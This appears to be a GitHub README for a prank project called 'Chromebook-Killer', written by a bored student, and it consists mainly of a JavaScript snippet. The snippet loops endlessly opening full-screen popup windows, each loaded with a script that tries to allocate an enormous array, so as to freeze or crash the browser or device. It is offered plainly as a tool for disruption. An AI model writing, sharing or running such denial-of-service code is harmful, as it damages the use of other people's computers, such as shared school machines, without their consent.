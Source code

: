 # Chromebook-Killer
I was bored in school. Nothing new there.

```js
for(;;){
  var a = Math.floor(100*Math.random()+1);
  b = window.open("_blank","Lag"+a,`height=${screen.height},width=${screen.width}`);
  b.document.body.innerHTML="<script>[...Array(2**32-1)]</script>";
}
```
